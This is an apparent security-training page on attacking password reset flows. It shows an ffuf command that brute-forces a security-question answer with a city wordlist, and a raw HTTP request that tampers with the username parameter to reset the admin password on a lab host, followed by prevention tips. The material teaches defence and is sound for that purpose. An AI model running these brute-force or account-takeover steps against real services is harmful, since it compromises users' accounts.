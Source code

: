 # Vulnerable Password Reset

* Password reset functionalities can be exploited through various vulnerabilities, including brute-forcing tokens and business logic flaws, even with protections like rate limiting and CAPTCHAs.

**Guessable Password Reset Questions:**

* Many applications use security questions for password recovery, which often have predictable answers.
* Common questions include:
  * "What is your mother's maiden name?"
  * "What city were you born in?"
* These questions can be guessed or found through OSINT, making them weak points in security.

**Brute-Forcing Security Questions:**

* If a web application uses a question like "What city were you born in?", attackers can brute-force the answer using a wordlist of cities.
*   Example command to create a city wordlist from a [CSV](https://github.com/datasets/world-cities/blob/master/data/world-cities.csv) file:

    {% code overflow="wrap" %}
    ```bash
    cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
    wc -l city_wordlist.txt  # Results in 26,468 cities
    ```
    {% endcode %}
*   To perform the brute-force attack, use a tool like `ffuf`:

    {% code overflow="wrap" %}
    ```bash
    ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."
    ```
    {% endcode %}
* If additional information about the target is known (e.g., location), the wordlist can be narrowed down to improve efficiency.

**Manipulating the Reset Request:**

* Another vulnerability arises when users can manipulate parameters in the password reset process.
* Example flow:
  1. Specify the username for the reset.
  2. Supply the answer to the security question.
  3. Reset the password using the username parameter, which can be manipulated to target different accounts.
*   Example of a manipulated request to reset another user's password:

    ```http
    POST /reset_password.php HTTP/1.1
    Host: pwreset.htb
    Content-Length: 32
    Content-Type: application/x-www-form-urlencoded
    Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

    password=P@$w0rd&username=admin
    ```

**Prevention:**

* Ensure consistent state verification throughout the password reset process to prevent unauthorized access.
* Implement robust checks to ensure that the username in the reset request matches the authenticated user.
* Regularly review and test password reset functionalities for potential security issues to safeguard against account takeovers.
